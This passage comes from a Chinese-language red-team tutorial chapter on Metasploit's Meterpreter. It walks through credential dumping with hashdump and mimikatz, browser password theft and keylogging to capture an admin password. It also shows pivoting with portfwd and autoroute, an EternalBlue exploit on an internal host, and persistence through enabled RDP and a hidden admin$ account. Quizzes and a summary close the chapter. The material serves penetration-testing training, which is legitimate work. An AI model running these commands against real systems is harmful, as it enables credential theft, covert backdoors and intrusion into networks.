```

### 10.4 窃取类

**导出所有凭证：**
```
meterpreter > run post/windows/gather/credentials/credential_collector
```

**Mimikatz全套：**
```
meterpreter > run post/windows/gather/credentials/mimikatz
```

---

## 📚 案例讲解

### 案例1：永恒之蓝拿下Windows 7后抓密码

**场景：**
用MS17-010拿下了一台Windows 7，
已经有SYSTEM权限的Meterpreter。
目标：抓取所有用户的密码。

**操作过程：**

**第一步：确认权限**
```
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
是SYSTEM，没问题。

**第二步：导出Hash**
```
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
user1:1000:aad3b435b51404eeaad3b435b51404ee:e19ccf75ee54e06b06a5907af13cef42:::
```

**第三步：加载mimikatz**
```
meterpreter > load mimikatz
Loading extension mimikatz...Success.
```

**第四步：抓明文密码**
```
meterpreter > wdigest
[+] Running as SYSTEM
[*] Retrieving wdigest credentials
wdigest credentials
===================

Username  Domain    Password
--------  ------    --------
user1     WIN-7     P@ssw0rd123
```

**第五步：抓浏览器密码**
```
meterpreter > run post/windows/gather/credentials/chrome
[*] Running module against WIN-7
[*] Downloading...
[+] Saved data to: /root/.msf4/loot/xxxx_default_192.168.1.100_chrome.creds_xxxx.txt
```

**结果：**
拿到了所有用户的Hash和明文密码，
还有浏览器保存的密码。

**启示：**
拿到SYSTEM权限之后，
第一件事就是抓密码！
密码是横向移动的关键。

---

### 案例2：端口转发访问内网3389

**场景：**
拿下了一台Web服务器（外网），
这台机器在内网里，
内网还有一台机器开了3389（远程桌面），
我们想直接连过去。

**操作过程：**

**第一步：确认内网环境**
```
meterpreter > ipconfig
...
IPv4 Address : 192.168.1.100
IPv4 Netmask : 255.255.255.0
...
```
目标内网IP是192.168.1.100/24。

**第二步：扫内网有没有开3389的**
```
meterpreter > background
msf6 > use auxiliary/scanner/portscan/tcp
msf6 auxiliary(...) > set RHOSTS 192.168.1.0/24
msf6 auxiliary(...) > set PORTS 3389
msf6 auxiliary(...) > set THREADS 50
msf6 auxiliary(...) > run
```
发现192.168.1.200开了3389。

**第三步：端口转发**
```
msf6 > sessions -i 1
meterpreter > portfwd add -l 4444 -p 3389 -r 192.168.1.200
[*] Local TCP relay created: :4444 <-> 192.168.1.200:3389
```

**第四步：连接远程桌面**
在Kali里运行：
```bash
rdesktop 127.0.0.1:4444
```
或者：
```bash
xfreerdp /u:administrator /p:password /v:127.0.0.1:4444
```

**结果：**
成功连上了内网的远程桌面。

**启示：**
portfwd是内网渗透的神器，
把内网的端口转发到本地，
就可以像访问本地一样访问内网服务了。

---

### 案例3：开启远程桌面 + 创建后门账号

**场景：**
拿下了一台服务器，
想留一个方便的后门，
以后直接用远程桌面连。

**操作过程：**

**第一步：开启RDP**
```
meterpreter > run post/windows/manage/enable_rdp
[*] Enabling Remote Desktop
[*]     RDP is already enabled
[*] Setting Terminal Services service startup mode
[*]     Terminal Services service is already set to auto
[*]     Opening port in local firewall if necessary
[*] For cleanup use command: run multi_console_command -rc /root/.msf4/logs/scripts/enable_rdp/xxx.rc
[+] RDP is running!
```

**第二步：创建隐藏管理员账号**
```
meterpreter > shell
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation. All rights reserved.

C:\Windows\system32> net user admin$ P@ssw0rd /add
net user admin$ P@ssw0rd /add
命令成功完成。

C:\Windows\system32> net localgroup administrators admin$ /add
net localgroup administrators admin$ /add
命令成功完成。

C:\Windows\system32> exit
exit
```
（用户名加$符号可以在net user里隐藏）

**第三步：测试登录**
用刚才开的portfwd转发3389，
然后用admin$账号登录，
成功！

**结果：**
以后只要这台机器开着，
就能用远程桌面连上去。

**启示：**
开启RDP + 创建隐藏账号，
是一种非常方便的持久化方式，
尤其适合Windows系统。

---

### 案例4：键盘记录获取管理员密码

**场景：**
拿到了一台普通用户的机器，
权限不高，
但管理员经常登录这台机器做维护。
想抓到管理员的密码。

**操作过程：**

**第一步：迁移到explorer.exe**
```
meterpreter > ps
...找到explorer.exe的PID...
meterpreter > migrate 1234
[*] Migrating from 5678 to 1234...
[*] Migration completed successfully.
```

**第二步：开启键盘记录**
```
meterpreter > keyscan_start
Starting the keystroke sniffer...
```

**第三步：等待管理员登录**
等啊等...
过了几个小时，管理员来干活了。

**第四步：导出记录**
```
meterpreter > keyscan_dump
Dumping captured keystrokes...
<Tab><Tab>administrator<Return>
P@ssw0rd_Admin123<Return>
...
```

抓到了管理员的密码！

**第五步：用管理员密码横向移动**
有了管理员密码，
就可以用psexec、wmiexec等工具，
去登录其他机器了。

**结果：**
通过键盘记录拿到了管理员密码，
为横向移动创造了条件。

**启示：**
键盘记录是非常有效的密码窃取方式，
尤其对于有人操作的机器。
耐心等待，总会有收获。

---

### 案例5：autoroute + MSF模块扫描内网

**场景：**
拿下了一台Web服务器，
想扫描整个内网，
看看还有什么其他机器、有什么漏洞。

**操作过程：**

**第一步：添加路由**
```
meterpreter > run autoroute -s 192.168.1.0/24
[*] Adding a route to 192.168.1.0/24...
[+] Added route to 192.168.1.0/24 via session 1
```

**第二步：后台运行，开始扫描**
```
meterpreter > background
msf6 > use auxiliary/scanner/portscan/tcp
msf6 auxiliary(...) > set RHOSTS 192.168.1.0/24
msf6 auxiliary(...) > set PORTS 21,22,80,135,139,445,3306,3389,8080
msf6 auxiliary(...) > set THREADS 50
msf6 auxiliary(...) > run
```

**第三步：看看有什么主机和端口**
扫描结果：
```
[+] 192.168.1.1:80 - TCP OPEN
[+] 192.168.1.10:445 - TCP OPEN
[+] 192.168.1.20:3306 - TCP OPEN
[+] 192.168.1.30:3389 - TCP OPEN
[+] 192.168.1.100:445 - TCP OPEN（当前机器）
...
```

**第四步：扫MS17-010**
```
msf6 > use auxiliary/scanner/smb/smb_ms17_010
msf6 auxiliary(...) > set RHOSTS 192.168.1.0/24
msf6 auxiliary(...) > set THREADS 50
msf6 auxiliary(...) > run
```
发现192.168.1.10和192.168.1.30都有MS17-010漏洞！

**第五步：打过去**
```
msf6 > use exploit/windows/smb/ms17_010_eternalblue
msf6 exploit(...) > set RHOSTS 192.168.1.10
msf6 exploit(...) > set PAYLOAD windows/x64/meterpreter/bind_tcp
msf6 exploit(...) > run
```

**结果：**
通过autoroute + MSF扫描模块，
快速摸清了内网情况，
还拿下了另一台机器。

**启示：**
autoroute把Meterpreter变成了一个跳板，
MSF的所有模块都可以通过这个跳板攻击内网。
这就是为什么MSF在内网渗透中这么强大。

---

## ✏️ 课后习题

### 选择题

1. Meterpreter的工作方式是？
   - A. 写文件到硬盘运行
   - B. 完全在内存中运行
   - C. 作为系统服务运行
   - D. 作为驱动运行

2. 查看当前Meterpreter是什么用户权限，用什么命令？
   - A. whoami
   - B. getuid
   - C. sysinfo
   - D. id

3. 把Meterpreter放到后台运行，用什么命令/快捷键？
   - A. exit
   - B. quit
   - C. background / Ctrl+Z
   - D. Ctrl+C

4. 上传文件用什么命令？
   - A. put
   - B. upload
   - C. send
   - D. cp

5. 下载文件用什么命令？
   - A. get
   - B. download
   - C. recv
   - D. pull

6. 抓取屏幕截图用什么命令？
   - A. capture
   - B. screenshot
   - C. snap
   - D. screen

7. 开始键盘记录用什么命令？
   - A. keylog_start
   - B. keyscan_start
   - C. record_keyboard
   - D. start_keylogger

8. 导出用户密码Hash用什么命令？
   - A. dump_hash
   - B. hashdump
   - C. get_password
   - D. steal_hash

9. 端口转发用什么命令？
   - A. forward
   - B. portfwd
   - C. redirect
   - D. proxy

10. 自动提权用什么命令？
    - A. privilege
    - B. getsystem
    - C. escalate
    - D. root

11. 查看目标系统信息用什么命令？
    - A. uname -a
    - B. sysinfo
    - C. systeminfo
    - D. info

12. 把Meterpreter注入到另一个进程，用什么命令？
    - A. inject
    - B. migrate
    - C. move
    - D. attach

13. mimikatz是用来做什么的？
    - A. 漏洞利用
    - B. 端口扫描
    - C. 窃取凭据/抓密码
    - D. 文件传输

14. 以下哪个命令可以开启远程桌面？
    - A. run post/windows/manage/enable_rdp
    - B. run post/windows/gather/hashdump
    - C. run persistence
    - D. run autoroute

15. 列出所有进程用什么命令？
    - A. tasklist
    - B. ps
    - C. processes
    - D. list

### 填空题

1. Meterpreter是完全在 _______ 中运行的，不留痕迹。
2. 查看当前用户权限用 _______ 命令。
3. 查看系统信息用 _______ 命令。
4. 上传文件用 _______ 命令，下载文件用 _______ 命令。
5. 截图用 _______ 命令，键盘记录开始用 _______ 命令。
6. 导出密码Hash用 _______ 命令。
7. 端口转发用 _______ 命令。
8. 自动提权用 _______ 命令。
9. 进程迁移用 _______ 命令。
10. 法国大牛写的密码抓取神器是 _______。
11. 把内网整个网段路由到MSF用 _______ 模块。
12. Meterpreter的两大通信方式是 _______ 和 _______。（反向/绑定）
13. 进入普通CMD Shell用 _______ 命令。
14. 查看当前进程ID用 _______ 命令。
15. 列出网络接口和IP用 _______ 命令。

### 简答题

1. 什么是Meterpreter？它和普通Shell有什么区别？
2. Meterpreter的工作原理是什么？为什么说它隐蔽性好？
3. Meterpreter有哪些常用的文件操作命令？（至少5个）
4. 怎么用Meterpreter抓取密码？有哪些方法？
5. 什么是端口转发（portfwd）？怎么用？
6. 什么是autoroute？它和portfwd有什么区别？
7. 什么是进程迁移（migrate）？为什么要做进程迁移？
8. 拿到Meterpreter之后，通常的后渗透流程是什么？
9. 什么是持久化？为什么需要持久化？
10. mimikatz有什么用？它和hashdump有什么区别？

### 实操题

1. 搭建一个Windows靶机，用MSF打过去，拿到Meterpreter。
2. 练习Meterpreter的基本命令：pwd、ls、cd、upload、download、cat、sysinfo、getuid、ps等。
3. 练习migrate进程迁移，把Meterpreter注入到explorer.exe。
4. 练习screenshot截图、keyscan键盘记录。
5. 练习hashdump导出密码Hash，以及用mimikatz抓密码。
6. 练习portfwd端口转发，把目标的3389转发到本地。
7. 练习persistence模块做持久化。
8. 用autoroute + MSF扫描模块扫内网（如果有环境的话）。

---

## 📝 本章小结

这一章我们深入学习了Meterpreter，
内容非常多，
也非常实用，
让我们来总结一下：

### Meterpreter是什么
- 高级、动态可扩展的Payload
- 完全在内存中运行，不留痕迹
- 功能极其强大，后渗透神器

### 基础操作
- `help`：帮助
- `background` / Ctrl+Z：后台运行
- `exit`：退出
- `shell`：进入CMD Shell
- `sysinfo`：系统信息
- `getuid`：当前用户
- `getpid`：当前进程ID

### 文件系统操作
- `pwd` / `cd` / `ls`
- `upload` / `download`
- `cat` / `edit` / `rm` / `mkdir` / `rmdir`
- `search`：搜索文件

### 系统操作
- `ps`：列出进程
- `migrate`：进程迁移
- `kill`：杀进程
- `execute`：执行程序
- `getprivs`：查看权限
- `hashdump`：导出密码Hash
- `reboot` / `shutdown`：重启/关机

### 用户界面操作
- `screenshot`：截图
- `webcam_list` / `webcam_snap` / `webcam_stream`：摄像头
- `record_mic`：录音
- `keyscan_start` / `keyscan_dump` / `keyscan_stop`：键盘记录
- `uictl`：控制鼠标键盘
- `idle_time`：空闲时间

### 网络操作
- `ipconfig`：网络配置
- `route` / `arp` / `netstat`
- `portfwd`：端口转发
- `autoroute`：自动路由（内网跳板）

### 凭据窃取
- `hashdump`：SAM Hash
- `mimikatz`：神器，抓明文、抓各种凭据
- 各种Post模块：浏览器密码、WiFi密码、邮件密码...

### 提权
- `getsystem`：自动提权
- 本地提权漏洞模块
- `local_exploit_suggester`：检测可利用的提权漏洞

### 持久化
- `persistence`：注册表自启动
- `metsvc`：服务后门
- RDP后门、shift后门...

### 常用Post模块
- `enable_rdp`：开启远程桌面
- `add_user`：添加用户
- `credential_collector`：凭证收集
- 还有很多很多...

Meterpreter的功能远不止这些，
这一章只是讲了最常用的一部分，
更多的功能等着你去探索。

下一章我们会学习MSF的高级应用，
包括数据库、插件、资源脚本、
以及更多高级功能。

我们下一章见！

---

## 🔗 相关链接

- [⬅️ 上一章：---](/redteam/day045-senior-MSF基础入门)
- [➡️ 下一章：---](/redteam/day047-senior-MSF高级应用)
- [📖 返回全书目录](/redteam/day118-toc-全书目录)
